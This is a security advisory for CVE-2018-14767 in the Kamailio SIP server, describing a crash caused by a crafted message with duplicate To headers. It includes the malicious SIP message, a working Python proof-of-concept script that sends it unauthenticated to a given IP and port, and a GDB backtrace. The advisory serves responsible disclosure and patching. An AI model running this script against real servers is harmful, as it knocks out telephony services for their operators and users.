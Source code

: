 ## Security vulnerability in Kamailio core related to To header processing, denial of service possible.

- Author: Henning Westerholt <hw at skalatan.de>
- Fixed versions: Kamailio v5.1.4 and v5.0.7
- References: CVE-2018-14767
- Kamailio Security Advisory: [link](https://www.kamailio.org/w/2018/07/kamailio-security-announcement-for-kamailio-core/)
- Tested vulnerable versions: 5.1, 4.0, git master
- Timeline:
    - Report date: 2018-05-07
    - Kamailio patch: 2018-05-07
    - Kamailio release with patch: 2018-06-05
    - Security advisory: 2018-07-30

### Description

There exists a security vulnerability in the Kamailio SIP server related to `To` header processing. A specially crafted SIP message with double `To` header and an empty To `tag` causes a segmentation fault and crashes Kamailio. The reason is missing input validation in the `build_res_buf_from_sip_req` core function.

### Impact

Abuse of this vulnerability leads to denial of service in Kamailio. Further research may show that exploitation leads to remote code execution. This vulnerability is rather old and will probably also apply to older versions of Kamailio and maybe even OpenSER.

### How to reproduce the issue

The following SIP message with double `To` headers containing the empty `tag` can be used to reproduce the vulnerability:


```
REGISTER sip:127.0.0.1:0 SIP/2.0
Via: SIP/2.0/UDP 172.17.13.240:5061;branch=9hG4bKydcnjlpe
To: <@127.0.0.1>;tag=
From: 
To: <sip:>
Content-Length: 1

```

You can use this python script to reproduce the crash:

```
#!/usr/bin/env python
import socket
import sys

for _ in range(2):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.connect((sys.argv[1], int(sys.argv[2])))

    msg = "REGISTER sip:127.0.0.1:0 SIP/2.0\n" \
        "Via: SIP/2.0/UDP 172.17.13.240:5061;branch=9hG4bKydcnjlpe\n" \
        "To: <@127.0.0.1>;tag=\n" \
        "From: \n" \
        "To: <sip:>\n" \
        "Content-Length: 1\n" \
        "\n" \
        "\r\n"
    sock.sendall(msg)
```

Run using:

```
python crash.py <ip> <port>
```

The expected result is a crash in Kamailio.

Notes: 

- authentication is not required
- crash happens in the first module that tries to construct a SIP reply caused by the bogus message
- SIP extension does not need to exist
- Message can be sent over TCP or UDP

### GDB backtrace result

An example for an backtrace caused by this crash in GDB:

```
Program terminated with signal SIGSEGV, Segmentation fault.
#0  __memcpy_sse2_unaligned () at ../sysdeps/x86_64/multiarch/memcpy-sse2-unaligned.S:152
152     ../sysdeps/x86_64/multiarch/memcpy-sse2-unaligned.S: No such file or directory.
(gdb) bt
#0  __memcpy_sse2_unaligned () at ../sysdeps/x86_64/multiarch/memcpy-sse2-unaligned.S:152
#1  0x000000000057ac26 in build_res_buf_from_sip_req (code=400, text=0x7ffc94ef0780, new_tag=0x7fe8e82ee250 <sl_tag>, msg=0x7fe8e923ca00, returned_len=0x7ffc94ef07e8, bmark=0x7ffc94ef0790) at core/msg_translator.c:2502
#2  0x00007fe8e80de2ee in sl_reply_helper (msg=0x7fe8e923ca00, code=400, reason=0x7fe8e6a7e85b "Content-Length mis-match", tag=0x0) at sl_funcs.c:168
#3  0x00007fe8e80df4c3 in sl_send_reply (msg=0x7fe8e923ca00, code=400, reason=0x7fe8e6a7e85b "Content-Length mis-match") at sl_funcs.c:304
#4  0x00007fe8e6a6d34f in sanity_reply (msg=0x7fe8e923ca00, code=400, reason=0x7fe8e6a7e85b "Content-Length mis-match") at sanity.c:55
#5  0x00007fe8e6a727b5 in check_cl (_msg=0x7fe8e923ca00) at sanity.c:557
#6  0x00007fe8e6a7c97a in sanity_check (_msg=0x7fe8e923ca00, msg_checks=1511, uri_checks=7) at sanity_mod.c:194
#7  0x00007fe8e6a7cb0a in w_sanity_check (_msg=0x7fe8e923ca00, _number=0x5e7 <error: Cannot access memory at address 0x5e7>, _arg=0x7 <error: Cannot access memory at address 0x7>) at sanity_mod.c:254
#8  0x0000000000439780 in do_action (h=0x7ffc94ef1160, a=0x7fe8e9210960, msg=0x7fe8e923ca00) at core/action.c:1079
#9  0x0000000000445e1d in run_actions (h=0x7ffc94ef1160, a=0x7fe8e9210960, msg=0x7fe8e923ca00) at core/action.c:1565
#10 0x00000000004464fa in run_actions_safe (h=0x7ffc94ef2480, a=0x7fe8e9210960, msg=0x7fe8e923ca00) at core/action.c:1633
#11 0x0000000000646d88 in rval_get_int (h=0x7ffc94ef2480, msg=0x7fe8e923ca00, i=0x7ffc94ef15e8, rv=0x7fe8e9211598, cache=0x0) at core/rvalue.c:912
#12 0x000000000064b31f in rval_expr_eval_int (h=0x7ffc94ef2480, msg=0x7fe8e923ca00, res=0x7ffc94ef15e8, rve=0x7fe8e9211590) at core/rvalue.c:1910
#13 0x000000000064b75d in rval_expr_eval_int (h=0x7ffc94ef2480, msg=0x7fe8e923ca00, res=0x7ffc94ef1a90, rve=0x7fe8e9210d78) at core/rvalue.c:1918
#14 0x0000000000439145 in do_action (h=0x7ffc94ef2480, a=0x7fe8e92121a0, msg=0x7fe8e923ca00) at core/action.c:1043
#15 0x0000000000445e1d in run_actions (h=0x7ffc94ef2480, a=0x7fe8e920cda8, msg=0x7fe8e923ca00) at core/action.c:1565
#16 0x00000000004360c5 in do_action (h=0x7ffc94ef2480, a=0x7fe8e91fb420, msg=0x7fe8e923ca00) at core/action.c:691
#17 0x0000000000445e1d in run_actions (h=0x7ffc94ef2480, a=0x7fe8e91fb420, msg=0x7fe8e923ca00) at core/action.c:1565
#18 0x00000000004465c2 in run_top_route (a=0x7fe8e91fb420, msg=0x7fe8e923ca00, c=0x0) at core/action.c:1654
#19 0x0000000000587d61 in receive_msg (buf=0xa525e0 <buf> "REGISTER sip:127.0.0.1:0 SIP/2.0\nVia: SIP/2.0/UDP 172\035\061\067.13.240:5061;rport;branch=\223\071hG4bKydcnjlpe\nMax-Forwards: 69\nTo: <@127.0.0.1>;tag=;branch=z9hG4bKya-tag\nFrom: <sip:user@127.0.0.Forwards: 70\nTo: <"..., len=417, rcv_info=0x7ffc94ef2aa0) at core/receive.c:331
#20 0x000000000046ca74 in udp_rcv_loop () at core/udp_server.c:554
#21 0x00000000004253d1 in main_loop () at main.c:1432
#22 0x000000000042d631 in main (argc=16, argv=0x7ffc94ef2fc8) at main.c:2650
```

This security issue was discovered through extensive SIP message fuzzing with [afl](http://lcamtuf.coredump.cx/afl/?target=_blank) and an internal toolset.

### Solutions and recommendations

Apply the [patch](https://github.com/kamailio/kamailio/commit/281a6c6b6eaaf30058b603325e8ded20b99e1456?target=_blank) from github or make use of a release that includes that patch (e.g. 5.1.4 or 5.0.7). At the moment no workarounds (e.g. in the configuration) are known.

### About Henning Westerholt

[Henning Westerholt](https://skalatan.de/about) is a core developer of Kamailio since 2007. He provides consulting services for Kamailio and VoIP services in the performance, reliability and security areas.

### Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
